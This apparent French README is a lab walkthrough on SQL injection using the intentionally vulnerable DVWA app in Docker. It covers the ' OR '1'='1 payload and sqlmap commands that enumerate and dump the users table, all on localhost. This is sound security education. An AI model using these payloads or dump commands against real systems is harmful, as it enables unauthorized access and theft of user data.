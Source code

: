 # TP d'injection SQL avec DVWA sur Docker, Kali Linux et sqlmap

## Introduction à l'Injection SQL

L'injection SQL est une vulnérabilité de sécurité web qui permet à un attaquant d'interférer avec les requêtes SQL qu'une application exécute sur sa base de données. En injectant du code SQL malveillant dans les entrées utilisateur, un attaquant peut contourner les mesures de sécurité, accéder à des données sensibles, modifier ou supprimer des données, voire même exécuter des commandes sur le serveur de base de données.

### Exemple d'Injection SQL

Prenons un exemple simple. Un site web a une page de connexion avec un champ "Nom d'utilisateur". Le code SQL pour vérifier les identifiants pourrait être :

```sql
SELECT * FROM utilisateurs WHERE nom_utilisateur = '$nom_utilisateur';
```

Si un utilisateur entre `' OR '1'='1`, la requête devient :

```sql
SELECT * FROM utilisateurs WHERE nom_utilisateur = '' OR '1'='1';
```

Comme `1=1` est toujours vrai, la requête renvoie toutes les lignes de la table utilisateurs, permettant potentiellement à l'attaquant de se connecter sans connaître le mot de passe.

## Mise en place de l'environnement sur Docker

### 1. Créer un réseau Docker

```bash
docker network create dvwa-network
```
![dvwa-network](Screenshot 2024-12-19 210102.png)

### 2. Lancer DVWA avec MySQL

Créez un fichier `docker-compose.yml` avec le contenu suivant :

```yaml
version: '3.8'
services:
  dvwa:
    image: vulnerables/web-dvwa
    ports:
      - "80:80"
    networks:
      - dvwa-network
    depends_on:
      - mysql
  mysql:
    image: mysql:5.7
    environment:
      MYSQL_ROOT_PASSWORD: "kali"
      MYSQL_DATABASE: dvwa
      MYSQL_USER: dvwa
      MYSQL_PASSWORD: "kali"
    volumes:
      - db_data:/var/lib/mysql
    networks:
      - dvwa-network

volumes:
  db_data:

networks:
  dvwa-network:
    driver: bridge
```

Exécutez :

```bash
docker-compose up -d
```
![Lancer les conteneurs docker](Screenshot 2024-12-19 210732.png)

### 3. Lancer Kali Linux (facultatif)

Si vous utilisez une instance Kali Linux existante, assurez-vous que `sqlmap` est installé :

```bash
sudo apt update && sudo apt install sqlmap
```

## TP avec sqlmap

### 1. Accéder à DVWA

Ouvrez votre navigateur et accédez à `http://localhost`. Configurez DVWA (database setup). Assurez-vous de choisir le niveau de sécurité "Low" pour cet exercice.
![Accès à DVWA](Screenshot 2024-12-19 211119.png)

![Alt text](Screenshot 2024-12-19 211137.png)

![Alt text](Screenshot 2024-12-19 211300.png)

![Alt text](Screenshot 2024-12-19 211733.png)

### 2. Identifier la vulnérabilité

Dans DVWA, allez dans "SQL Injection". Entrez un ID (par exemple, 1). Observez l'URL. Elle devrait ressembler à ceci : `http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#`.

![Alt text](Screenshot 2024-12-19 211821.png)

![Alt text](Screenshot 2024-12-19 211836.png)

### 3. Utilisation de sqlmap

#### Tester la vulnérabilité

```bash
sqlmap -u http://localhost/vulnerabilities/sqli/?id=1 --dbs --batch --level 1
```
![sqlmap Test Vulnerability](Screenshot 2024-12-19 212018.png)

#### Lister les tables d'une base de données

```bash
sqlmap -u http://localhost/vulnerabilities/sqli/?id=1 -D dvwa --tables --batch --level 1
```
![sqlmap List Tables](Screenshot 2024-12-19 212121.png)

#### Lister les colonnes d'une table

```bash
sqlmap -u http://localhost/vulnerabilities/sqli/?id=1 -D dvwa -T users --columns --batch --level 1
```
![sqlmap List Columns](Screenshot 2024-12-19 214207.png)
#### Récupérer les données d'une table

```bash
sqlmap -u http://localhost/vulnerabilities/sqli/?id=1 -D dvwa -T users --dump --batch --level 1
```
![sqlmap Dump Data](Screenshot 2024-12-19 214232.png)
## Résumé

Ce TP a permis de comprendre les bases de l'injection SQL, de mettre en place un environnement de test avec Docker, DVWA et Kali Linux, et d'utiliser `sqlmap` pour exploiter une vulnérabilité d'injection SQL.

## Conclusion

L'injection SQL est une menace sérieuse pour les applications web. Il est crucial de mettre en œuvre des mesures de sécurité robustes, telles que la validation et l'échappement des entrées utilisateur, l'utilisation de requêtes préparées ou d'ORM, pour prévenir ces attaques. Ce TP offre une expérience pratique pour comprendre et contrer cette vulnérabilité.
